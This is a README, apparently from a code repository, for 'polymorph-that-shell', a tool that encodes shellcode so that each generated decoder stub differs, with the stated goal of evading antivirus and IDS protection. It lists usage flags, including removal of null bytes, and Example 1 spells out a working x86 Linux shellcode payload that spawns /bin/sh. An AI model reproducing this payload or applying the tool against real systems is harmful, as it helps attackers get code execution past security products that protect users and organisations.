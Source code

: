 polymorph-that-shell
====================


Polymorph-that-shell is a simple polymorphic engine to dynamically encode (Insertion-Encoder) shellcode. Therefore "everytime" the decoder stub is created in another way (polymorph). This may avoid antivirus and IDS protection.


System requirements: linux x86 environment, python 2.7, nasm, ld, objdump


Usage: ./polymorphThatShell.sh [OPTIONS] [SHELLCODE_IN_C_FORMAT|SHELLCODE_FILE]

-f: Read shellcode from file

-b: Generate shellcode without "bad" characters (e.g.: "\x00")

-fb: Read shellcode from file and generate polymorphed shellcode without "bad" characters

Example 1: ./polymorphThatShell.sh "\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x8d\x4c\x24\x08\xcd\x80"

Example 2: ./polymorphThatShell.sh -f shellFile


You also can use a simple GUI by calling the ./gui.pyw script